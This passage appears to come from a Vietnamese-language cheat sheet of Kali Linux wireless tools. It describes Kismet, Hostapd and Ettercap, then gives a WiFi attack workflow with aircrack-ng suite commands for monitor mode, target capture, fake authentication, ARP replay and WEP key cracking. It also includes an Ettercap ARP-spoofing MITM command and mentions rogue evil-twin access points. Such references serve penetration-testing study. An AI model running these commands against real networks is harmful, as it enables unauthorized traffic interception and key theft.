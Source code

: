 
## 📶 [Kismet](https://www.kali.org/tools/kismet/)
**Chức năng:** Wireless network detector  
**Mô tả:** Passive wireless sniffer và IDS  
**Lệnh chính:** `kismet`  
**Ví dụ:** Khởi động web interface để monitor wireless traffic

---

## 🎭 [Hostapd](https://www.kali.org/tools/hostapd/)
**Chức năng:** Tạo fake access point  
**Mô tả:** Tạo rogue AP cho evil twin attacks  
**Lệnh chính:** `hostapd`  
**Ví dụ:** `hostapd hostapd.conf` (khởi động fake AP)

---

## 🌐 [Ettercap](https://www.kali.org/tools/ettercap/)
**Chức năng:** Network sniffer và MITM  
**Mô tả:** Comprehensive suite cho network attacks  
**Lệnh chính:** `ettercap`, `etterlog`, `etterfilter`  
**Ví dụ:** `ettercap -T -M arp:remote /192.168.1.1// /192.168.1.100//`

---

## 🔄 **WiFi Attack Workflow:**

### 1️⃣ **Reconnaissance Phase**
```bash
# Bật monitor mode
airmon-ng start wlan0

# Scan networks
airodump-ng wlan0mon

# Capture specific target
airodump-ng -c [CHANNEL] --bssid [BSSID] -w capture wlan0mon
```

### 2️⃣ **WEP Attack**
```bash
# Fake authentication
aireplay-ng -1 0 -a [BSSID] wlan0mon

# ARP replay attack
aireplay-ng -3 -b [BSSID] wlan0mon

# Crack WEP key
aircrack-ng capture-01.cap
```
